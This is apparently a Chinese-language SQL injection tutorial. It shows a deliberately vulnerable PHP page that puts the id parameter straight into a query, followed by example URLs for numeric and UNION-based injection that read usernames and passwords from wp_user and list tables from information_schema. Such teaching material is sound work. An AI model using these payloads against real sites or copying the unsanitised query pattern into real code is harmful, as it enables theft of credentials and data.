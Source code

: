 ## Sql Injection
### 1.数字型和Union注入

```
sql1.php
<?php
// connect
$conn = sql_connect("127.0.0.1", "root", "root", "test")
$res = mysqli_query($conn, "SELECT title, content FROM wp_news WHERE id=".$_GET['id']);
$row = mysqli_fetch_array($res);
echo "<center>";
echo "<h1>".$row['title']."</h1>";
echo "<br/>";
echo "<h1>".$row['content']."</h1>";
echo "</center>";
?>
```

## 1.1 注入尝试1, sql解析
`http://example.com/test.php?id=2` <br/>
`http://example.com/test.phph?id=3-1` <br/>
两者等价, 说明3-1进行了解析 <br/>
## 1.2 union联合查找
`http://example.com/test.php?id=1+union+select+user,pwd+from+wp_user+limit+1,1` <br/>
union查询把两个结果并在一起, 通过limit1,1 取出后面查询结果的第一条

## 1.3 通用攻击,对information_schema
`http://192.168.20.133/sql1.php？id=-1 union select 1，group_concat
(table_name) from information_schema.tables where table_schema=database()` <br/>


